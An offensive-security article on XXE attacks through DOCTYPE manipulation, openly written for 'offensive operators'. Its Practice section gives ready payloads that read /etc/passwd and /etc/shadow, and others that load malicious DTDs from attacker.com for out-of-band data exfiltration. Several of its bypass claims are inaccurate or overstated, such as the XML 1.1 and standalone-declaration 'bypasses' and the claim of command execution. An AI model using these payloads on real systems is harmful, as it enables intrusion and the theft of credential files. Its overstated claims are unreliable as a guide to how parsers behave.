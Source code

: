 ```yaml
---
title: Advanced DOCTYPE Manipulation Techniques
description: Explore how to leverage DOCTYPE manipulation for XML parser exploitation
  and security bypassing in web applications.
keywords:
- DOCTYPE manipulation
- XXE exploitation
- XML parser bypass
- internal subset
- external subset
- mixed content model
- DTD injection
- standalone declaration bypass
---
```


# DOCTYPE Manipulation

## Context

The purpose of this article is to enable offensive operators to exploit weaknesses in XML parsers using advanced DOCTYPE manipulation, a technique often employed for evasion and bypass. Readers should have a foundational understanding of XML structures and syntax, the basics of Document Type Definitions (DTD), and the XML parsing process. Familiarity with standard XML External Entity (XXE) exploitation will be beneficial.

## Theory

### Role of DOCTYPE in XML Parsing

DOCTYPE declarations play a crucial role in defining the DTD for an XML document. They control how entities are declared and how the document is validated. By manipulating DOCTYPE, attackers can significantly alter parser behavior, potentially bypassing security controls intended to prevent unauthorized access or data leakage.

### Internal vs. External Subsets in DOCTYPE

DOCTYPE can have either internal or external subsets. 

- **Internal subset** defines DTD declarations within the XML document itself.
- **External subset** refers to DTD declarations that are loaded from an external resource.

Parsers may handle these subsets differently, which can lead to inconsistent security enforcement. This inconsistency can be leveraged by attackers to perform unauthorized actions.

### Advanced DOCTYPE Manipulation Techniques

Crafting specific attack sequences involves injecting custom internal subsets to redefine or introduce entities for exploitation. Additionally, leveraging external subsets allows for loading malicious DTDs from attacker-controlled servers. Some parsers may overlook security settings when parsing complex or deeply nested DOCTYPE declarations, creating potential vulnerabilities.

### Evasion via Mixed Content Models and Fragment Injection

Attackers can embed malicious DTD fragments within mixed content models, which can bypass static security filters. The strategy involves splitting DTD payloads across multiple XML elements or attributes to evade detection.

### Bypassing with Standalone and XML Declarations

Manipulating standalone or XML declarations can influence parser behavior, effectively bypassing existing security restrictions. This manipulation becomes a tool for attackers to ensure that the parser processes the DTDs despite restrictive environmental settings.

## Practice

### Internal Subset DOCTYPE Injection

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** This payload injects a malicious internal subset to define an XXE entity capable of arbitrary file read or command execution.
- **Outcome:** Exploiting internal DTD manipulation may result in the unauthorized reading of sensitive files or execution of commands on the target server.

### External Subset DOCTYPE Reference

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root SYSTEM "http://attacker.com/malicious.dtd">
  <root>&xxe;</root>
  ```
- **Explanation:** An attacker-controlled external DTD is referenced to introduce malicious entities.
- **Outcome:** Remote DTD loads can enable advanced XXE attacks or out-of-band data exfiltration.

### Mixed Content Model DTD Fragment Injection

- **Payload:**
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE root [
  <!ELEMENT root (#PCDATA|foo)*>
  <!ENTITY % dtd SYSTEM "http://attacker.com/fragment.dtd">
  %dtd;
  ]>
  <root>test</root>
  ```
- **Explanation:** The payload injects DTD fragments via mixed content to evade static security filters.
- **Outcome:** This approach can bypass input validation, enabling DTD-based attacks that remain undetected by conventional filters.

### Standalone Declaration Bypass

- **Payload:**
  ```xml
  <?xml version="1.0" standalone="no"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/shadow">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** By altering the standalone declaration, this technique influences the parser's processing of DTDs.
- **Outcome:** The parser may process DTDs despite restrictive settings, allowing for the execution of unauthorized actions.

### XML Declaration Manipulation

- **Payload:**
  ```xml
  <?xml version="1.1"?>
  <!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
  ]>
  <root>&xxe;</root>
  ```
- **Explanation:** This tactic changes the XML version to bypass version-specific parser restrictions.
- **Outcome:** It can bypass version-based input validation or parser restrictions, permitting exploitation activities.

## Tools

- **Burp Suite**
- **curl**
- **XXEinjector** 

This roadmap provides a structured approach to understanding and implementing DOCTYPE manipulation techniques for offensive operations. Each section highlights specific aspects of the theory and practice, which can be used for effective exploitation in controlled environments.